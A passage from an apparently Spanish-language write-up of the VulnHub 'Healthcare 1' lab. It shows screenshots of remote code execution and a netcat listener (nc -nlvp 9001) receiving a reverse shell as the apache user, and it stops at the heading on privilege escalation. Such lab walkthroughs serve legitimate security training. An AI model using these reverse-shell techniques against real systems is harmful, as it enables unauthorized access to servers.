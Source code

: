 ![rce](/assets/img/commons/vulnhub/healthcare1/rce.png){: .center-image }

Validamos y ganamos acceso al servidor.

![rs1](/assets/img/commons/vulnhub/healthcare1/rs1.png){: .center-image }

![rs2](/assets/img/commons/vulnhub/healthcare1/rs2.png){: .center-image }

```bash
❯ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.56] 50467
bash: no job control in this shell
bash-4.1$ whoami
apache
```

## Escalación de privilegios

---

